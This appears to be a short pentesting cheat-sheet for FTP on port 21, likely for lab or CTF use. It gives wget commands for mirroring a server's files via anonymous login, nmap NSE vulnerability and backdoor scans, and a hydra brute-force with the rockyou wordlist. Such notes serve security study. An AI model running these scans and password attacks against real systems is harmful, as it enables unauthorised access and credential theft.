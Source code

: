 - - -
- **Default Port:** **<mark style="background: #FFB86CA6;">21</mark>**
The **File Transfer Protocol (FTP**) is a standard network protocol used for the transfer of computer files between a client and server on a computer network. It is a **plain-text** protocol.
- - -

## Download all files from FTP

```sh
wget -m ftp://anonymous:anonymous@10.10.10.98 
wget -m --no-passive ftp://anonymous:anonymous@10.10.10.98 
```

### Nmap NSE : 

```sh
nmap --script=ftp-anon,ftp-bounce,ftp-libopie,ftp-proftpd-backdoor,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221,tftp-enum -p 21 $IP
```

```sh
nmap --script=ftp-* -p 21 $IP
```

### Brute forcing : 

```sh
hydra -t 4 -l dale -P /usr/share/wordlists/rockyou.txt -vV 10.10.10.6 ftp
```

- - -
